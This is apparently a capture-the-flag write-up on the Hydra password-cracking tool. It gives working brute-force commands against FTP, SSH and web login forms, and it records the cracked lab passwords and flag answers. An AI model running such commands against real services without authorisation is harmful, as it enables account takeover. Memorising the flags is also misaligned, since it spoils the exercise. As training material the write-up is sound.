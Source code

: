 # Hydra

* Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

> More about hydra [here](https://en.kali.tools/?p=220)

## Hydra Commands


* Bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

```bash
hydra -l user -P passlist.txt ftp://10.10.72.0
```

* SSH

```bash
hydra -l <username> -P <full path to pass> @IP -t 4 ssh
```

|Option|Description|
|---|---|
|-l|the username|
|-P|Use a list of passwords|
|-t|Number of threads to use|

* POST Web Form

```bash
hydra -l <username> -P <wordlist> @IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

|Option|Description|
|---|---|
|-l|Single username|
|-P|Password list|
|http-post-form|Type of the form (post)|
|/login url|Login page URL|
|:username|form field where username entered|
|^USER^|tells hydra to use the username|
|^PASS^|tells hydra to use the password list supplied|
|Login|tell Hydra the login field message|
|Login failed|is the login failued message that the form returns|
|F=incorrect|if the word appears on the page, it's incorrect|
|-V|verbose ouput for every attempt|

1. Use Hydra to bruteforce molly's web password. What is flag 1?

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.72.0 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
# password: sunshine
```

```
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.72.0 -t 4 ssh
# password: butterfly
```

```
THM{c8eeb0468febbadea859baeb33b2541b}
```